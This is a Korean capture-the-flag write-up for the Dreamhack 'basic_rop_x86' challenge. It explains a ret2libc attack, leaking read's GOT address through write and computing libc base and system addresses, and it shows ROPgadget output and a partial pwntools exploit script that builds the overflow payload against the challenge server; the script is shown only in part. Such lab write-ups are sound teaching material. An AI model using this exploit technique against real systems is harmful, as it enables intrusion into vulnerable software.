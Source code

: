 system 함수가 문제에서 사용되지 않았기 때문에 라이브러리에서 system 함수의 주소를 찾아야 system 함수로 리턴 시킬 수 있다.

이번 문제에서는 libc.so.6 라이브러리를 사용하기 때문에 이미 사용하고 있는 read함수의 got와libc.so.6에서의 read함수 오프셋을 이용해서 libc.so.6의 베이스 주소를 구한 후 system 함수의 오프셋을 더해 system함수의 주소를 알아내고자 한다. 

함수의 got주소는 ELF(파일명).got 를 이용하여 그 파일에서 got의 주소를 구할 수 있고 라이브러리 오프셋은 ELF(라이브러리명).symbols 를 이용하여 구할 수 있다. 

즉 system 함수가 rop_basic_x86 파일이 실행되었을 때 라이브러리 상 어디 주소에 있는지 알기 위해서는 다음과 같은 과정을 거쳐야 한다.

1. read 함수(이미 불러졌던 함수)의 got 주소로 찾아가 got에 적혀있는 주소를 알아낸다. (라이브러리에 있는 read함수의 주소)
2. 그러면 라이브러리에 있는 read 함수의 주소를 알아냈으므로 이 값에서 라이브러리 read 함수 오프셋을 빼주면 라이브러리의 베이스 주소가 나온다.
3. 이 라이브러리 베이스 주소에서 라이브러리 system 오프셋을 더하면 system 함수의 라이브러리상 주소를 알 수 있다.

write 함수를 이용해 system 함수의 주소를 leak 시킬 것이다.

32비트 아키텍쳐는 특성상 매개변수가 스택에 존재하고 pop을 통해 꺼내어 함수를 실행한다. write함수는 매개변수가 세개이므로 pop pop pop ret 가젯을 찾아야 한다. 

```bash
┌──(root💀kali)-[~/바탕화면/basic_rop_86]
└─# ROPgadget --binary ./basic_rop_x86 | grep "pop"                                      1 ⨯
0x080483d4 : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x08048685 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483d6 : add esp, 8 ; pop ebx ; ret
0x0804869f : arpl word ptr [ecx], bx ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x08048684 : jecxz 0x8048609 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048683 : jne 0x8048668 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483d2 : lcall 0x8c4:0x83000000 ; pop ebx ; ret
0x080483d7 : les ecx, ptr [eax] ; pop ebx ; ret
0x08048686 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048687 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x0804868b : pop ebp ; ret
0x08048688 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483d9 : pop ebx ; ret
0x0804868a : pop edi ; pop ebp ; ret
0x08048689 : pop esi ; pop edi ; pop ebp ; ret
```

pop ret 가젯은 0x080483d9 에

pop pop pop ret 가젯은 0x08048689에 있는 것을 볼 수 있다.

```python
from pwn import *

host="host3.dreamhack.games"
port=20485
p=remote(host,port)
#p=process('./basic_rop_x86')

e=ELF('./basic_rop_x86')
library = ELF('./libc.so.6') # 라이브러리 불러오기
#library = e.libc

write_plt = e.plt['write']
read_plt = e.plt['read']
read_got = e.got['read']
main= e.symbols['main']

pppr = 0x08048689  # pop pop pop ret gadget
pr = 0x080483d9 # pop ret gadget
payload = b'A'*0x40 + b'B' *0x8

#write(1,read_got,0x40)
payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1)
payload += p32(read_got)
```
